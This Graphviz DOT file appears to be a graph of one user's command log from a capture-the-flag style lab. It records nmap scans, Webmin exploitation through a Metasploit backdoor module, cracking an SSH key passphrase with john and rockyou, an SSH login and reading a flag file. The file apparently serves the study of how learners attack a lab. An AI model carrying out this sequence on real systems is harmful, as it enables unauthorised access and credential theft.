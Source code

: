 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 -p 10000 A1 "]
	2 [label="J8 cd Downloads/ U"]
	3 [label="ls A10 "]
	4 [label="cd Downloads/ U"]
	5 [label="ls A10 "]
	6 [label="sh 47293.sh 172.18.1.5:10000 U"]
	7 [label="bash 47293.sh 172.18.1.5:10000 U"]
	8 [label="nano utok.sh U"]
	9 [label="sh utok.sh 172.18.1.5:10000 U"]
	10 [label="nano utok.sh U"]
	11 [label="msfconsole M2 "]
	12 [label="exit U"]
	13 [label="msfconsole U"]
	14 [label="use unix/webapp/webmin_backdoor M4 "]
	15 [label="help U"]
	16 [label="show options M5 "]
	17 [label="set RHOSTS 172.18.1.5 M6 "]
	18 [label="exploit M8 "]
	19 [label="ip a U"]
	20 [label="set LHOST 192.168.131.85 U"]
	21 [label="exploit U"]
	22 [label="exit U"]
	23 [label="quit U"]
	24 [label="exit -y U"]
	25 [label="clear U"]
	26 [label="namp 172.18.1.1/24 U"]
	27 [label="nmap 172.18.1.1/24 A1 "]
	28 [label="nmap 10.0.1.1/24 A1 "]
	29 [label="nmap 10.1.0.1/24 A1 "]
	30 [label="nmap 100.100.100.1/24 A1 "]
	31 [label="msfconsole U"]
	32 [label="use unix/webapp/webmin_backdoor U"]
	33 [label="set LHOST 192.168.131.85 U"]
	34 [label="nmap 172.168.1.1/24 A1 "]
	35 [label="nmap 172.18.1.1/24 A1 "]
	36 [label="set RHOSTS 172.18.1.5 U"]
	37 [label="nmap 10.1.0.1/24 A1 "]
	38 [label="exploit U"]
	39 [label="show options U"]
	40 [label="curl 172.18.1.5:10000 U"]
	41 [label="exploit U"]
	42 [label="clear U"]
	43 [label="nmap 10.1.17.4 A1 "]
	44 [label="nano key.txt U"]
	45 [label="chmod 600 key.txt M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	47 [label="ssh -i key.txt eve@10.1.17.4 U"]
	48 [label="ssh -i key.txt eve@10.1.17.4 U"]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 "]
	51 [label="./ssh2john.py key.txt A14 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 "]
	56 [label="john --show sshjohn.txt A14 "]
	57 [label="john --single sshjohn.txt A14 "]
	58 [label="john --show sshjohn.txt A14 "]
	59 [label="john -i sshjohn.txt A14 "]
	60 [label="john --incremental sshjohn.txt A14 "]
	61 [label="ls A10 "]
	62 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	63 [label="clear U"]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt M14 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 U"]
	66 [label="ssh -i key.txt eve@10.1.17.4 U"]
	67 [label="ls A10 "]
	68 [label="cd top-secret/ U"]
	69 [label="ls A10 "]
	70 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}
